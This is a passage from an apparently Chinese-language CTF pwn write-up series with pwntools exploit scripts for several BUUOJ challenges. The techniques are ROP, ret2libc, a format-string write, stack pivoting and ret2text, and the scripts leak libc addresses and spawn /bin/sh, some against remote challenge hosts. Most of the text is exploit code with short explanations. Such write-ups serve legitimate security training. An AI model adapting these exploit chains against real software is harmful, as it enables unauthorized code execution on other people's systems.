mov_rax = 0x4004E2
pop_rbx_rbp_r12= 0x40059a
mov_call = 0x400580
sys_call = 0x400517
pop_rdi = 0x04005a3

payload = b"/bin/sh\x00"*2 + p64(vulun_addr)
io.send(payload)
io.recv(0x20)

bin_sh_add = u64(io.recv(8))-0x118
payload = b"/bin/sh\x00"*2 + p64(pop_rbx_rbp_r12)+p64(0)*2+ p64(bin_sh_add+0x50) + p64(0)*3

payload +=  p64(mov_call)+p64(mov_rax) +p64(pop_rdi)+ p64(bin_sh_add) + p64(sys_call)

io.sendline(payload)

io.interactive()
```

## 0x19.[HarekazeCTF2019]baby_rop2

printf泄露地址，ROP构造system /bin/sh。

```python
from pwn import *
from LibcSearcher import *
context(log_level='DEBUG')
#io = process("./babyrop2")
io = remote("node3.buuoj.cn",26898)
elf = ELF("./babyrop2")
libc = ELF("libc.so.6")
printf_plt = elf.plt['printf']
read_got = elf.got['read']
main = elf.sym['main']
fmt_str = 0x00400770
pop_rdi_ret = 0x0400733
pop_rsi_r15_ret = 0x400731
io.recv()
payload = 'a'*0x28 + p64(pop_rdi_ret)+ p64(fmt_str) +p64(pop_rsi_r15_ret) 
payload +=  p64(read_got)+p64(0) + p64(printf_plt)+ p64(main) 
io.sendline(payload)
io.recvuntil("again, ")
io.recvuntil("again, ")
read_add  = u64(io.recv(6).ljust(8,'\x00'))
print hex(read_add ) 
#libc = LibcSearcher('read',read_add)
base = read_add - libc.sym['read']
system_add = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
io.recv()
payload = 'a'*0x28 +p64(pop_rdi_ret)+ p64(bin_sh) + p64(system_add)+p64(main)
io.sendline(payload)
io.interactive()
```


## 0x1A.jarvisoj_fm

格式化字符串。是第11个。

p32(x_addr) + "%11$n" 意思是将x_addr写入11的位置。

```python
from pwn import *
context(log_level='debug')
#io = process("./fm")
io = remote("node3.buuoj.cn",26157)
x_addr = 0x0804A02C
payload = p32(x_addr) + "%11$n"
io.sendline(payload)
io.interactive()
```

## 0x1B.jarvisoj_tell_me_something

简单的ret2text

```python
from pwn import *
context(log_level='debug')
io = process("./guestbook")
fun_add = 0x400620
io.recv()
payload = 'a'*(0x88)+ p64(fun_add)
io.sendline(payload)
io.recv()
io.interactive()
```


## 0x1C.jarvisoj_level4

ret2libc

```python
from pwn import *
context(log_level='debug')
io = process("./level4")
elf = ELF("./level4")
libc = ELF("./libc-2.23.so")
write_plt = elf.sym['write']
write_got = elf.sym['write']
main_addr = elf.sym['main']
payload = 'a'*(0x88+4)+ p32(write_plt) + p32(main_addr) + p32(1)+p32(write_got) + p32(4)
io.sendline(payload)
write_add = u32(io.recv(4))

print write_add

base = write_add - write_got
sys_add = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()

payload = 'a'*(0x88+4) + p32(sys_add)+ p32(main_addr)+ p32(bin_sh)

io.sendline(payload)
io.interactive()
```

## 0x1D.jarvisoj_level3

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}
```

```python
from pwn import *
context(log_level='debug')
#io = process("./level3")
io = remote("node3.buuoj.cn",28043)
elf = ELF("./level3")
libc = ELF("./libc-2.23.so")
write_plt = elf.sym['write']
fun_add = 0x0804844B
write_got = elf.got['write']
payload = 'a'*0x88 +'bbbb' + p32(write_plt) + p32(fun_add) + p32(1)+ p32(write_got)  + p32(4)
io.recv()
io.sendline(payload)
write_add = u32(io.recv(4))
print hex(write_add)
io.recvuntil("Input:\n")
base = write_add - libc.sym['write']
sys_add = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
payload = 'a'*0x88 +'bbbb' + p32(sys_add) +p32(0x10086110) + p32(bin_sh)
io.sendline(payload)
io.interactive()
```

## 0x1E.[Black Watch 入群题]PWN

```c
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF
  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, &s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```

其中s在bss段。

在read buf的位置正好可以覆盖返回地址，覆盖为s的地址，然后在s的地方写入构造好的payload。

s处：

>   p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)

s：`0804A300`

先说下buf处payload的构造：`p32(0x18*'a') + p32(s_addr-4)+ p32(leave_ret)`

ebp指向save_rbp的位置，也就是填入p32(s_addr_4)的位置。然后将返回地址写为leave_ret 的地址。

首先，执行leave_ret(也就是mov rsp,rbp;pop rbp)，会将rsp和rbp通同时指向save_rbp的位置，然后pop rbp，将rbp指向bss段的s_addr-4的位置；再之后rsp再次进行leave_ret，执行完后这时rsp指向bss段s_addr-4的位置，rbp指向s_addr的位置。（pop rbp会将rbp+4）


```python
from pwn import *
context(log_level='debug')
#io = process("./spwn")
io = remote("node3.buuoj.cn",29713)
elf = ELF("./spwn")
libc = ELF("./libc-2.23.so")
write_plt = elf.sym['write']
write_got = elf.sym['write']
main = elf.sym['main']
leave_ret = 0x08048408
s_addr = 0x0804A300
io.recvuntil("name?")
payload = p32(write_plt) + p32(main) + p32(1)+p32(write_got)+ p32(4)
io.sendline(payload)
io.recvuntil("say?")
payload1 = 0x18*'a'+p32(s_addr-4) + p32(leave_ret)
io.sendline(payload1)
write_addr = u32(io.recv(4))
base = write_addr - write_got
sys_addr = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
payload = p32(sys_addr) + p32(main) + p32(bin_sh)
io.sendline(payload)
io.recvuntil("say?")
io.sendline(payload1)
io.interactive()
```

## 0x1F.bjdctf_2020_babystack2

ret2text

```python
from pwn import *
io = process("./bjdctf_2020_babystack2")
context(log_level='debug')
backdoor = 0x00400726
io.recv()
io.sendline("-1")
io.recv()
payload = 'a'*0x18 + p64(backdoor)
io.send(payload)
io.interactive()
```


